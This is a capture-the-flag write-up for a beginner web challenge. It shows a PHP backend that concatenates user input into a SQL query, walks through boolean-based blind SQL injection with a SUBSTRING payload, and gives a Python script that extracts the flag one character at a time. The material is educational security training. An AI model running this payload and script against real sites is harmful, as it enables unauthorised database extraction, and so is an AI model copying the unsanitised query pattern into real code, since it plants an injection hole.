 
# [WWCTF] - Writeup

## Challenge: The Needle
**Category:** Beginner  

---

### Description
*author: dxler

You are presented with a simple search tool, an interface to a vast and hidden archive of information. Your mission is to find a single, specific secret hidden within. The tool is your only guide, but it is notoriously cryptic. You'll need to use clever queries and careful observation to uncover the prize.
*

---

### Analysis
>This challenge gave us the code on the backend.

```php
if(isset($_GET['id'])) {
            @$searchQ = $_GET['id'];
            @$sql = "SELECT information FROM info WHERE id = '$searchQ'";
            @$result = mysqli_query($conn, $sql);
            @$row_count = mysqli_num_rows($result);
            
            if ($row_count > 0) {
                echo "Yes, We found it !!";
            } else {
                echo "Nothing here";
            }
            $conn->close();
        }
```

>This code snippet shows that when we give an input (id), it will get placed into an SQL query without any checks. This will allow for SQL injection. The result of SQL query will be passed to row_count. If row count is greater than 0, it will return 'Yes, We found it!'. Otherwise, it will return 'Nothing here'. This means that regardless of our input, there is no way to submit an SQL query that will output the flag. However, since the code will give one of 2 results, this means we can test values to see if they result in true. This means a blind SQL injection.

---

### Approach
>The challenge website gives this interface for the SQL injection. We can test it works by giving it the value 1, which, in the SQL query, would be 'SELECT information FROM info WHERE id = 1'. This returns true.
<img width="630" height="302" alt="Screenshot 2025-07-28 at 2 34 15 PM" src="https://github.com/user-attachments/assets/693fb90d-92f5-486b-8556-e351fb492625" />

>Now that we know this works, we can use blind SQL injection to try values and see if they are correct. Since we know the first letter of the flag is 'w', we can test this to make sure it works. We would need the SQL query to be something like:
```sql
'SELECT information FROM info WHERE id = '0' OR SUBSTRING((SELECT information FROM info WHERE id=1),1,1) = 'w'
```
>In order to get this, we would need to input:
```sql
0' OR SUBSTRING((SELECT information FROM info WHERE id=1),1,1) = 'w
```
>This will check if inputing 0 returns true, which we know it doesn't, or if the next section of the query returns true, which it should if we have the letter correct.
<img width="625" height="293" alt="Screenshot 2025-07-28 at 2 48 00 PM" src="https://github.com/user-attachments/assets/1a81e65c-7e4a-45aa-be4f-45238003acaa" />

>It works! This confirms that it is reading from the flag and that the first letter is 'w'.


---

### Exploitation / Solution
>We could manually try each letter in the flag to get the result. However, this would be annoying and tedious, so I wrote a python script for this.
```python
import requests
import string


url = "https://the-needle.chall.wwctf.com/"  # Target URL
param_name = "id"  # Vulnerable parameter name

# Characters to try for each position in the flag
charset = string.ascii_letters + string.digits + "_{}-!"

flag = ""
position = 1

print("Starting blind SQL injection to extract the flag...")

while True:
    found_char = None
    for c in charset:
        # Craft payload for current position and character guess
        payload = f"0' OR SUBSTRING((SELECT information FROM info WHERE id=1),{position},1) = '{c}"

        # Send the HTTP GET request with the injection in the parameter
        params = {param_name: payload}
        response = requests.get(url, params=params)

        # Check for the condition that indicates a TRUE result
        # In this case, the string "Yes, We found it !! "s

        if "Yes, We found it !! " in response.text:
            print(f"Position {position}: Found character '{c}'")
            flag += c
            position += 1
            found_char = c
            break

    if not found_char:
        print("No matching character found at position", position)
        print("Final extracted flag:", flag)
        break
```
>This script automates the process by trying each number, letter, and special character for each position in the string, until it gets the true message, then moves to the next position. Once it gets to the end, it will not find any character that works, and return the final string.
<img width="494" height="483" alt="Screenshot 2025-07-28 at 2 56 18 PM" src="https://github.com/user-attachments/assets/e8389ef2-a269-466c-913d-e6fbdd0d1555" />

>After running this script, we get the flag: wwf{s1mpl3_bl!nd_sql}
